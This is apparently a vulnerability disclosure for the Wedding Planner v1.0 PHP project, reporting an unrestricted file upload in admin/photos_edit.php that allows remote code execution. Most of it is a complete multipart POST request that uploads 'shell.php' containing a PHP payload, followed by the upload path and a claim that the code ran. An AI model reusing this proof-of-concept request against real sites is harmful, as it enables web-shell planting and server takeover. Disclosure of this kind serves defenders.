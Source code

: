 # Wedding Planner v1.0 by pushpam02 has arbitrary code execution (RCE)

BUG_Author: f0ward

vendor: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability url: http://ip/Wedding-Management-PHP/admin/photos_edit.php?id=37

Loophole location：The editing function of "Gallery" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "photos_edit.php" file.

Click "Edit" to save

Request package for file upload:

```sql
POST /Wedding-Management-PHP/admin/photos_edit.php?id=37 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management-PHP/admin/photos_edit.php?id=37
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------143261442322250
Content-Length: 834

-----------------------------143261442322250
Content-Disposition: form-data; name="booking_id"

34
-----------------------------143261442322250
Content-Disposition: form-data; name="title"


-----------------------------143261442322250
Content-Disposition: form-data; name="caption"


-----------------------------143261442322250
Content-Disposition: form-data; name="alternate_text"


-----------------------------143261442322250
Content-Disposition: form-data; name="description"


-----------------------------143261442322250
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------143261442322250
Content-Disposition: form-data; name="submit"

Edit
-----------------------------143261442322250--
```

The files will be uploaded to this directory  \Wedding-Management-PHP\admin\upload\gallery

![image](https://user-images.githubusercontent.com/54017627/183274902-c067ed28-7ae2-4909-88da-a5d53eb5e5d1.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/183274917-ebff1508-433d-41ce-85db-90c3e194b8e6.png)

